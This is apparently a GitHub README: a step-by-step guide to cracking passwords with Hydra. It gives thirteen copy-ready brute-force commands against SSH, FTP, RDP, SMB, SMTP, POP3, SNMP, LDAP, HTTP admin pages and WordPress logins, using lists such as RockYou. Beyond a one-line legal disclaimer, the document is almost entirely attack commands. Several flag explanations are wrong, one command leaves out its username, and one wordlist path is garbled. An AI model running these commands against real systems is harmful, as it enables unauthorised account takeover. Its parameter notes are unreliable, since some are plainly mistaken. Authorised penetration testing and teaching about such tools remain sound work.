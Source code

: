 Hydra Password Cracking Step-by-Step Guide
Introduction:
Hydra is a powerful password-cracking tool that supports various protocols. This guide provides step-by-step instructions for using Hydra in different scenarios. Always ensure you have legal authorization before attempting any password-cracking activities.

Prerequisites:
Install Hydra:
Use your system's package manager or download from Hydra's official website.
Set Target IP:
bash
Copy code
export ip=10.10.10.1
Replace 10.10.10.1 with the target IP address.

Commands:
1. SNMP Brute Force:
bash
Copy code
hydra -P password-file.txt -v $ip snmp
Description:
This command performs a brute-force attack against the SNMP protocol using a password file.
Parameters:
-P password-file.txt: Specify the password file.
-v: Verbose output.
$ip snmp: Target IP and protocol (SNMP).
Usage:
Replace password-file.txt with your password file.
2. FTP Brute Force with Known User and RockYou Password List:
bash
Copy code
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp
Description:
This command performs a brute-force attack against FTP using a known username and the RockYou password list.
Parameters:
-t 1: Use one thread.
-l admin: Target username.
-P /usr/share/wordlists/rockyou.txt: Password file.
-vV: Verbose output with version info.
$ip ftp: Target IP and protocol (FTP).
Usage:
Replace admin with your target username.
3. SSH Brute Force with User and Password Lists:
bash
Copy code
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh
Description:
This command performs a brute-force attack against SSH using a list of usernames and passwords.
Parameters:
-u: Use usernames.
-L users.txt: Usernames file.
-P passwords.txt: Password file.
-t 1: Use one thread.
-v -V: Verbose output.
$ip ssh: Target IP and protocol (SSH).
Usage:
Replace users.txt and passwords.txt with your respective files.
4. SSH Brute Force with Known Password and User List:
bash
Copy code
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
Description:
This command performs a brute-force attack against SSH using a known password and a list of usernames.
Parameters:
-p "": Known password (blank).
Other options are similar to SSH.
5. SSH Brute Force Against Known Username on Port 22:
bash
Copy code
hydra $ip -s 22 ssh -l -P big_wordlist.txt
Description:
This command performs a brute-force attack against SSH targeting a known username on port 22.
Parameters:
-s 22: Port number.
-l: Userlist mode.
-P big_wordlist.txt: Password file.
Usage:
Replace big_wordlist.txt with your password file.
6. POP3 Brute Force:
bash
Copy code
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V
Description:
This command performs a brute-force attack against POP3 using a specific username and a password list.
Parameters:
-l USERNAME: Target username.
-P /usr/share/wordlistsnmap.lst: Password file.
-f: Stop on first valid password.
$ip pop3: Target IP and protocol (POP3).
Usage:
Replace USERNAME with your target username.
7. SMTP Brute Force:
bash
Copy code
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
Description:
This command performs a brute-force attack against SMTP using a password list.
Parameters:
$ip smtp: Target IP and protocol (SMTP).
8. HTTP GET Brute Force for Admin Login:
bash
Copy code
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin
Description:
This command performs a brute-force attack against an HTTP login page using a list of usernames and passwords.
Parameters:
-L ./webapp.txt: Usernames file.
-P ./webapp.txt: Password file.
$ip http-get /admin: Target IP, protocol (HTTP), and login URL.
Usage:
Replace ./webapp.txt with your usernames and passwords files.
9. Windows Remote Desktop (RDP) Brute Force with RockYou:
bash
Copy code
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
Description:
This command performs a brute-force attack against Windows Remote Desktop (RDP) using a known username and the RockYou password list.
Parameters:
Options similar to RDP command.
Usage:
Replace administrator with your target username.
10. SMB Brute Force with RockYou:
bash
Copy code
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb
Description:
This command performs a brute-force attack against SMB using a known username and the RockYou password list.
Parameters:
Options similar to SMB command.
11. WordPress Admin Login Brute Force:
bash
Copy code
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
Description:
This command performs a brute-force attack against WordPress admin login using a specific username and a password list.
Parameters:
Options for WordPress login.
Usage:
Replace admin with your target username and ./passwordlist.txt with your password file.
12. SMB Brute Forcing with Usernames and Passwords:
bash
Copy code
hydra -L usernames.txt -P passwords.txt $ip smb -V -f
Description:
This command performs a brute-force attack against SMB using a list of usernames and passwords.
Parameters:
Options for SMB.
Usage:
Replace usernames.txt and passwords.txt with your respective files.
13. LDAP Brute Forcing:
bash
Copy code
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f
Description:
This command performs a brute-force attack against LDAP using a list of usernames and passwords.
Parameters:
Options for LDAP.
Usage:
Replace users.txt and passwords.txt with your respective files.
This guide provides detailed instructions for each Hydra command. Customize the parameters based on your specific requirements and ensure compliance with legal and ethical standards.





